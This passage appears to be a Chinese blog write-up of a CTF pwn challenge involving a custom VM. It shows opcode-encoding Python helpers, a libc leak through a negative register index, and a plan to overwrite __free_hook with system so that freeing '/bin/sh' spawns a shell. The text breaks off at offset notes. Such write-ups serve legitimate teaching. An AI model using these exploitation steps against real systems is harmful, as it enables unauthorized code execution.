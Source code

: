 
同时还有这个


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212224356838-659812714.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212224356838-659812714.png)


我们可以向reg里面进行赋值和取出值


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212224645956-442285452.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212224645956-442285452.png)


这里打印reg里面的值，但是是4位一组


最后会调用free把我们输入东西进行free，那么如果我们把free\_hook给修改成system那么就可以通过输入/bin/sh来获取shell


那么就需要得到一个libc地址，正好前面可以通过负数下标来将一个libc地址存入reg输入，然后进行打印泄露地址


这里可以把相关的函数包装一下



```
def add(v4,v3,v2):
    opcode = u32((p8(0x70)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode


def xor(v4,v3,v2):
    opcode = u32((p8(0xb0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def rhl(v4,v3,v2):
    opcode = u32((p8(0xd0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def lhl(v4,v3,v2):
    opcode = u32((p8(0xc0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def readn(v4,v2):
    opcode = u32((p8(0x30)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode

def writen(v4,v2):
    opcode = u32((p8(0x40)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode

def setnum(v4,v2):
    opcode = u32((p8(0x10)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode


#n=(0x202060-0x201f80)/4 = 56
#-56 = 0xffffffc8
#-8
#stdin -> __free_hook = 0x2398
```
